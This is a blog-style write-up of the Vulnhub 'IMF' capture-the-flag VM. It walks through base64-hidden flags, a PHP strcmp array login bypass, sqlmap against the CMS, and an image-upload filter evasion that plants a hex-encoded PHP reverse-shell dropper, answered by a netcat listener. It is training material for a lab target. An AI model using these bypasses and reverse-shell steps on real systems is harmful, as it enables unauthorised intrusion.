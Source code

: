 ```yaml
---
layout: post
title: IMF
---
```

Wlecome to my first CTF virtual machine writeup. I downloaded the virtual machine file from [Vulnhub](https://www.vulnhub.com/entry/imf-1,162/) The description doesn't give much away:
>Welcome to "IMF", my first Boot2Root virtual machine. IMF is a intelligence agency that you must hack to get all flags and ultimately root. The flags start off easy and get harder as you progress. Each flag contains a hint to the next flag. I hope you enjoy this VM and learn something. 

First I decided to scan for open ports and running services using nmap:
```
nmap -sS -sV -O -A -p- 192.168.0.100
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: IMF - Homepage
```
There seems to be only one service running on the target and it looks like a HTTP server. So I fire up browser to see webpage which seems to be some kind of landing page for intelligence agency:
![IMF landing page]({{ site.url }}/images/imf/homepage.jpg)
So where can I start? Skimming through sources of the page two things cought my attention. First were the names of three script files linked:
```html
<script src="js/ZmxhZzJ7YVcxbVl.js"></script>
<script src="js/XUnRhVzVwYzNS.js"></script>
<script src="js/eVlYUnZjZz09fQ==.min.js"></script>
```

Especially last one looked a lot like base64 encoded but unfortunately it didn't decode well to anything readable. I made note of that to be sure to come back to that. It didn't have to wait too long. In HTML comments from contacts.php I found the first flag:
>flag1{YWxsdGhlZmlsZXM=}

It decoded to **allthefiles** which immediatly pointed me back to script file names. The trick was to merge all three names into one base64 string. After decoding we have second flag:
>flag2{aW1mYWRtaW5pc3RyYXRvcg==}

Flag 2 decodes to **imfadministrator**, could it be hidden folder on webserver? You bet it is! Under /imfadministrator we find simple login form:
```html
<form method="POST" action="">
<label>Username:</label><input type="text" name="user" value=""><br />
<label>Password:</label><input type="password" name="pass" value=""><br />
<input type="submit" value="Login">
<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->
</form>
```

Comment under login form claims that 'Roger' couldn't get the sql working so he hardcoded the password. Trying some generic logins like 'admin' I got the 'Invalid username.' response. So there is a chance that if I get login right the site will tell me.

Tried admin and some combinations of roger, author of the comment but no luck. Then I remembered the /contact.php page. There is email rmichaels@imf.local for Roger so I figured it's his login. Now the page says the 'Invalid password', so I'm on the good track.

How to break super-safe hardcoded password? Well, all you need to do is to do is to pass argument as an array in post request, like this:
>user=rmichaels&pass[]=

Why this works? Probably 'Roger' used PHP function 'strcmp' which returns 0 both on equal strings and error. So when it got array instead of string it let us bypass the password check.
```html
flag3{Y29udGludWVUT2Ntcw==}<br />Welcome, rmichaels<br /><a href='cms.php?pagename=home'>IMF CMS</a>
```

Decoding flag 3 yields 'continueTOcms' hint which frankly is pretty obvious given it's the only link we see.

CMS cracked with sqlmap
flag4{dXBsb2Fkcjk0Mi5waHA=}
Flag 4 decodes to uploadr942.php
Navigating to /imfadministrator/uploadr942.php reveals simple file uploader. 
Couple minutes of fiddling with different samples of files I found out the server
allows only graphic files, filtering in addition some 'dangerous' php functions.
After uploading the file we can find the comment with strange string.
It's the file name of a file found in the /imfadministrator/uploads/ folder
after uploading the image.
After more experimenting I found out that it does allow file_put_contents function, 
so I decided to obfuscate actual payload inside a dropper utilizing this function:
cp /usr/share/webshells/php/php-reverse-shell.php reverse-shell.php
Set proper host
cat reverse-shell.php | xxd -p | tr -d [:space:] > payloadhex.txt
Wrap it in php dropper and add GIF98 header to fool filter.
Next navigate to a dropper (remember to check the name of the file in the HTML comment)
after running a dropper we can setup a listener on attackers machine:
nc -lp 1234
and after navigating to /msfadministrator/uploads/backdoor.php we ge a shell!
Linux imf 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 15:53:41 up  2:42,  0 users,  load average: 0.11, 0.12, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
Now we can navigate to /var/www/html/imfadministrator/uploads
And besides our uploaded junk we have a flag:
drwxr-xr-x 2 www-data www-data  4096 Jun  7 13:36 .
drwxr-xr-x 4 www-data www-data  4096 Oct 17  2016 ..
-rw-r--r-- 1 www-data www-data    82 Oct 12  2016 .htaccess
-rw-r--r-- 1 www-data www-data  6074 Jun  6 13:01 048cc0ba197b.gif
-rw-r--r-- 1 www-data www-data    27 Jun  2 10:53 15d75ca3b468.gif
-rw-r--r-- 1 www-data www-data 11052 Jun  7 13:36 29ab56559292.gif
-rw-r--r-- 1 www-data www-data  6061 Jun  6 10:57 4688d3be2edf.gif
-rw-r--r-- 1 www-data www-data 45944 Jun  2 10:49 66024f4e10de.jpg
-rw-r--r-- 1 www-data www-data  6089 Jun  6 10:59 825abef8c60f.gif
-rw-r--r-- 1 www-data www-data  5494 Jun  7 13:37 backdoor.php
-rw-r--r-- 1 www-data www-data 58816 Jun  1 13:09 bd580392b826.jpg
-rw-r--r-- 1 www-data www-data 58816 Jun  1 13:00 c4e76ada9220.jpg
-rw-r--r-- 1 www-data www-data    28 Oct 12  2016 flag5_abc123def.txt

flag5{YWdlbnRzZXJ2aWNlcw==}
Flag 5 decodes to agentservices
